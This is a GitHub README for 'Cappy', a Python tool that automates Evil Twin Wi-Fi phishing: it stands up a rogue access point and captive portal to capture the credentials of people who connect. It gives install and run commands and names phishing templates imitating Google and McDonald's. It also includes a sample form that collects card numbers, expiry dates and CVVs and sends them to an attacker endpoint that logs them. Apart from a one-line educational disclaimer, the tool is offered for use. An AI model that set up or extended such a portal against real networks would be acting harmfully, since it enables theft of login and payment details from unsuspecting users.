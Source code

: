 <div align="center">
  <img src="https://flockahh.b-cdn.net/B5860EAD-2DC4-4373-A00C-B0C219CB6D9A.png" alt="Cappy Logo" />
  
##   $${\color{orange}Cappy}$$ 
  
</div>
  
<div>
  
**Evil Twin** is a phishing technique categorized under network attacks, it involves the creation of a **rogue wireless access point (AP)** that masquerades as a legitimate network, such as a public Wi-Fi hotspot or a familiar network with a captive portal, to deceive users into connecting and unknowingly divulging their sensitive login credentials and other personal information transmitted over the compromised connection. 
</div>

<br />

> [!TIP]
> <strong>Cappy, a framework that automates the attack, must be used only in clear, educational purposes.<br /> Any action outside of that context is highly unrecommended, and may result in legal consequences</strong>

# Introduction

**Python** tool, that automates the process of setting up captive portal on Linux machines, with some tweaks.

> [!NOTE]
> This software was tested on: <strong>Kali Linux, KaliPi, ParrotOS</strong><br />
> In case of any trouble, create an issue and describe the error

<br />

**Cappy** operation scheme:

```
  Check Dependencies ---> Choose network interface
          |                ^         |                                                                         
          | missing?       |         └ Change mac address                      Run captive portal <--- Select Template
          |                |                   |                                       |                       |
  Install Dependencies -   |                   └ Menu Screen                           └ Capture credentials   |
                       |_ _|                          | start?                                                 |
                                                      └ Prepare adapter ---> Configure IP Adresses ---> Restart services
                                                      └ Write configs
```

# Setup

**In most cases, Cappy can handle the setup by itself, so give it a try**

<br />

**1-A.** Installing Cappy with pip

  <sub>This will make 'Cappy' available from any path in the terminal</sub>
  
  ```
    $ git clone https://github.com/FLOCK4H/Cappy
    $ cd Cappy
    $ sudo pip install .
  ```

**1-B.** Running Cappy with Python
   
   <sub>We will need to install dependencies manually</sub>

```
  $ sudo apt-get update
  $ sudo apt-get install lighttpd hostapd dnsmasq
  $ cd Cappy
  $ sudo python Cappy
```

# Usage

![image](https://github.com/FLOCK4H/Cappy/assets/161654571/ce6ee823-5408-4b14-8f3c-ce33bb53737b)

```
  $ sudo Cappy
```

**Templates** are being saved to the <i> **/usr/local/share/Cappy/templates** </i>folder.

Creating a new template will result in making new directory in that path with a name of the template.

By default, there are 2 endpoints and 5 fields, that we can use in `index.html` of the template:
- /action.html -> username, password, credit, expire, cvv
- /data -> any

Example:
```
<form method='POST' action="http://10.0.0.15:80/action.html">
    <input type='text' name='credit' placeholder="CARD NUMBER"/>
    <input type='password' name='expire' placeholder="EXPIRY DATE"/>
    <input type='password' name='cvv' placeholder="CVV"/>
    <input value='Submit' type='submit'/>
</form>
```

**Device wanting to join the network will be redirected to the `index.html` of the template, where after entering credentials and submitting, will be redirected to the `action.html`, that harvests those credentials and logs to the console.**

**There are 4 default templates**:
- `google`
- `mrhacker`
- `Valentines`
- `mcd`

Help make this number bigger, and message me with your template:

`flock4h@gmail.com \ Topic: Cappy Templates [NEW_TEMPLATE_NAME]`

## Troubleshooting

There are numerous reasons for why the Cappy may not work, as it all depends on the network adapter, operating system, and machine capabilities itself.
Carefully read the console when launching the framework, the errors can provide more information on what's going on.

Here are the general steps on how to debug your issue:

1. Ensure dependencies are installed manually

```
  $ sudo apt-get install hostapd dnsmasq lighttpd
```

2. Check paths for conflicts:

```
  $ ls /etc/hostapd
  $ find /etc/dnsmasq.conf
  $ find /usr/local/share/Cappy
```

3. Check logs of the services:

```
  $ sudo systemctl status hostapd
  $ sudo systemctl status dnsmasq

  # If dnsmasq status replied with - 10.0.0.1-150 range is busy, you need to change all 10.0.0.15 and 10.0.0.20-150 entries in the code to other IP and range.
```

> [!TIP]
> In case when troubleshooting steps did not work; please create an issue

## TODO

- [ ] Add run arguments
- [ ] Stable release
- [ ] PyPi release

## LICENSE

$${\color{orange}MIT}$$ 
THE SOFTWARE IS PROVIDED “AS IS”, WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.
